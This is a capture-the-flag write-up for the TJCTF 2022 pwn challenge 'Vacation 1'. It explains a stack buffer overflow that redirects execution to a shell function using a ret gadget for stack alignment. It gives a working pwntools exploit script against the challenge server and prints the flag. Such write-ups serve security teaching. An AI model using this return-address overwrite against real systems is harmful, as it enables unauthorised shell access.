





# \[Pwn\] - Vacation 1

#### Points = 176

## Prompt

Too much school, too much work, too much writing CTF challenges... can I just go on vacation?

`nc tjc.tf 31680`

by kfb

#### Hints
\[None\]

## Provided Files
[files](../../files/tjctf-2022/vacation-1) - link to files

- `DockerFile`
- `chall.c` - source code
- `chall` - compiled binary

<div style="page-break-after: always"></div>

## Write Up

- ok let's see what this is doing.
	
	- line #16 - `main()` calls `vacation()`
	- line #9 - `vacation()` allocates 16 bytes on the stack for a buffer
	- line #11 - `fgets()` accepts 64 bytes as input.
		- we can overflow this buffer and overwrite stack values.
	- line #4 - `shell_land()` function gives us a shell which we can use to read the flag.
		- we need to overwrite the return address in `vacation()` to return to `shell_land()`

<div style="page-break-after: always"></div>

#### What the Stack Looks like:


- our input must fill the buffer with 16 bytes
- the next 8 bytes will fill the space for the saved `rbp` register
- the last 8 bytes should be filled with the address of `shell_land()`
- you can find function addresses using gdb: 
	

<div style="page-break-after: always"></div>

#### Modification

- this approach does not work because the stack is not aligned on the target machine
	- since this is a 64-bit machine, all stack addresses are 8 byte aligned.
	- libc functions like `system()` have the extra requirement that the stack is 16 byte aligned.
- **New Approach** -  instead we will jump to any `ret` instruction in the program and then to `shell_land()`
	- an extra `ret` instruction pops a value off the stack which makes it 16 byte aligned if it was not before.

###### Explanation of New Approach

- what `ret` does is pop 8 bytes off the stack into `rip`
- we are going to be executing two `ret` instructions in a row
	- first - at the end of `vacation()`
	- second - the one we are jumping to
- after the first `ret` executes, `rsp` will be pointing right above the address it placed in `rip`, since `ret` is just a fancy `pop` instruction.
- We can jump to a `ret` instruction and then `shell_land()` by placing their addresses consecutively on the stack as shown below.
- I hope I did a good job explaining this `-_(0-0)_-`




#### Solution
- here is a python script which creates a payload as described above.

	```
	from pwn import *

	# location of shell_land() - handles endianness
	ret_instr_addr = p64(0x4011df)
	shell_addr = p64(0x401196)

	# 16B - buffer, 8B - saved rbp
	padding = b'A' * 24

	# final payload
	# jump to a ret instr then to func (fixes alignment issue)
	payload = padding + ret_instr_addr + shell_addr

	# make connection and deliver
	# elf = ELF('./chall')
	# tgt = elf.process()
	tgt = remote('tjc.tf', 31680)
	line = tgt.recvline()

	tgt.sendline(payload)
	tgt.interactive()
	```

- this gives you a shell where you can `cat` the flag
	
	
## Flag

tjctf{wh4t_a_n1c3_plac3_ind33d!_7609d40aeba4844c}